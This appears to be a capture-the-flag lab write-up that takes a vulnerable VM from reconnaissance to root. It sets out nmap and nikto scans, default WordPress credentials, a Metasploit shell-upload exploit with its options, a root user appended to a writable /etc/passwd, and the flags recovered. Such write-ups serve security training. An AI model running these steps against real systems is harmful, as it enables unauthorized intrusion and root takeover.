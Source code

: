 # BA_1 Box Report

## Part 1: finding IP

1.  my ip -> 192.168.110.131 (from `ifconfig`)
2.  `nmap -sP 192.168.110.1/24`
    -   192.168.110.2, 192.168.110.129, 192.168.110.131 ip present -> guess target IP `192.168.110.129`

## Part 2: finding for vulnerabilities

1.  `nmap -sV -p- -A --open 192.168.110.129`
    -   port 21 (ftp) -> ProFTPD 1.3.3c -> possible backdoor -> https://www.rapid7.com/db/modules/exploit/unix/ftp/proftpd_133c_backdoor/
        -   proftpd is backdoored (`nmap --script ftp-proftpd-backdoor -p 21 192.168.110.129`)
    -   port 80 (http) -> Apache httpd 2.4.18 ((Ubuntu))
2.  `nmap --script vuln 192.168.110.129`
    -   LIKELY VULNERABLE -> Slowloris DOS attack (CVE-2007-6750)
3.  `nikto scan -h http://192.167.110.129`
    -   interesting -> /secret/ -> wordpress landing page
        -   wordpress 4.9.18 (from view page source)
        -   username: admin ; password: admin (by manual trail and error)
        -   found [this](https://www.rapid7.com/db/modules/exploit/multi/http/wp_crop_rce/) by googling (only once then had to reinstall the VM for additional exploit of the same kind)

## Part 3: Exploit

-   Exploit used [WordPress Crop-image Shell Upload for Wordpress versions 5.0.0 and <= 4.9.8](https://www.rapid7.com/db/modules/exploit/multi/http/wp_crop_rce/)

1. `msfconsole`
    - `use exploit/multi/http/wp_crop_rce`
    - `show options`
    - `set PASSWORD admin`
    - `set RHOSTS 192.168.110.129`
    - `set TARGETURI /secret/`
    - `set USERNAME admin`
    - `exploit`

## Part 4: Privilege escalation

1. started from www-data
2. found `/etc/passwd` write permission is open to all -> added a new user
    - added `"indishell:$1$abc$66P0kBoPMsKgk3H5bxZFv/:0:0:indishell,,,:/home/indishell:/bin/bash"` in the end of the file
    - Username: indishell
    - Password: pass123
        - password generated by `openssl passwd -1 -salt abc pass123`
3. `su indishell` to gain root access
4. changed marlinspike passwd to pass123 and sucessfully able to login the computer

## Part 5: Finding flags

-   found flags 1 and 3 during privilege escalation

    -   Flag1: TA21{HAHAHA_Easy_you_thought} (in /home/marlinspike)
    -   Flag3: TA21{ROOOTE333D} (in /root)

-   `find / -iname flag*`
    -   Flag2: TA21{Flagg3d_nice+one} (in `/var/flag/flag2`)

## Ending Note

-   Plan was to find all flags and root privilege and it has been successfully achieved

Extra Things that could be done

-   Keylogger
-   Persistence Meterpreter install
-   SSH setup
-   etc.
